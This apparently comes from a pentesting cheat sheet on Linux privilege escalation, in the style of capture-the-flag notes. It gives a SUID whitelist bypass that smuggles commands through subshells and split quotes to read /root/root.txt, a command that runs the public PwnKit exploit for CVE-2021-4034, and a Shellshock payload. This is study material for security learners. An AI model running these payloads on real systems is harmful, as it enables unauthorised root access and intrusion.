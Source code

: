 ```yaml
---
icon: face-angry-horns
---
```


# Binary Exploitation - Linux

{% hint style="danger" %}
### <mark style="color:purple;">Bypass</mark> <mark style="color:orange;">`SUID`</mark> <mark style="color:purple;">whitelist</mark>

* <mark style="color:purple;">Sometimes</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">commands may have a whitelist for commands .</mark>
* <mark style="color:purple;">This can be bypassed by using</mark> <mark style="color:orange;">**`subcommands`**</mark><mark style="color:purple;">**:**</mark>

```sh
supershell ‘/bin/ls $(cat /root/root.txt)’
```

* <mark style="color:purple;">In this example</mark> <mark style="color:orange;">**`supershell`**</mark> <mark style="color:purple;">is the</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">binary and</mark> <mark style="color:orange;">**`/bin/ls`**</mark> <mark style="color:purple;">the whitelisted command, there are also another way to bypass this by using</mark> <mark style="color:orange;">**`'`**</mark> <mark style="color:purple;">to open a quote:</mark>

```sh
supershell ‘/bin/ls
```

* <mark style="color:purple;">Then in the next line use your desired command:</mark>

```sh
cat /root/root.txt’
```
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">Exploit</mark> <mark style="color:orange;">`pkexec`</mark>

* <mark style="color:purple;">Check if</mark> <mark style="color:orange;">**`pkexec`**</mark> <mark style="color:purple;">has</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">permissions:</mark>

```sh
ls -l /usr/bin/pkexec
```

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`pwnkit`**</mark>](https://github.com/joeammond/CVE-2021-4034/)<mark style="color:purple;">:</mark>&#x20;

```sh
python CVE-2021-4034.py
```
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:orange;">`ShellSock`</mark>

* <mark style="color:purple;">Attack vectors include remote command execution via</mark> <mark style="color:orange;">**`CGI`**</mark> <mark style="color:purple;">scripts or web servers, as well as exploitation in environments like</mark> <mark style="color:orange;">**`SSH`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`HTTP`**</mark><mark style="color:purple;">, and any process that involves</mark> <mark style="color:orange;">**`Bash`**</mark> <mark style="color:purple;">interpreting environment variables.</mark>
* <mark style="color:purple;">Affects</mark> <mark style="color:orange;">**`Bash`**</mark>**&#x20;**<mark style="color:purple;">**versions**</mark>**&#x20;**<mark style="color:orange;">**`1.x`**</mark>**&#x20;**<mark style="color:purple;">**to**</mark>**&#x20;**<mark style="color:orange;">**`4.3`**</mark><mark style="color:purple;">**:**</mark>

```sh
() { :;}; echo; /usr/bin/id
```
{% endhint %}

